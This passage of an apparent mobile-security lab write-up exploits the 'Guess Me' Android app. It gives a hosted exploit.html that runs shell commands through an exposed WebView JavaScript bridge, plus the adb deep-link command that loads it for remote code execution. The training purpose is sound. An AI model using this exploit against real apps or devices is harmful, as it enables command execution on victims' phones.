 ### Exploiting the Application

First, let's create and host an `exploit.html` file that communicates with `MyJavaScriptInterface` using the exposed method `getTime()` with the parameter being the command to run using the `AndroidBridge` defined in the `WebviewActivity`.

```html
<!-- exploit.html -->
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
</head>
<body>

<h1>Exploit guess app</h1>
<p id="result"></p>


<script>

    //Change to your command
    var result = AndroidBridge.getTime("uname -a");
    var lines = result.split('\n');
    var command = lines[0];
    var fullMessage = "Command: " + command;
    document.getElementById('result').innerText = fullMessage;

</script>

</body>
</html>

```

Now, all we need to do is serve this HTML file using Python.

```bash
python -m http.server 80
```

And start our app to get the URL of your web server to achieve remote code execution.

```bash
adb shell am start -a android.intent.action.VIEW -d  "mhl://mobilehackinglab?url=http://192.168.0.109/exploit.html?test=mobilehackinglab.com"
```

Upon the page loading, we successfully achieve remote code execution on the victim's phone.

### Conclusion

This lab serves as a valuable lesson in understanding the security implications of loading URLs within a WebView in Android applications. By exploiting vulnerabilities such as insecure JavaScript interfaces, attackers can achieve Remote Code Execution and compromise the integrity of the application. For a hands-on experience with these concepts, visit the lab at [MobileHackingLab - Guess Me](https://www.mobilehackinglab.com/course/lab-guess-me). Embark on a journey of discovery and bolster your expertise in mobile security.
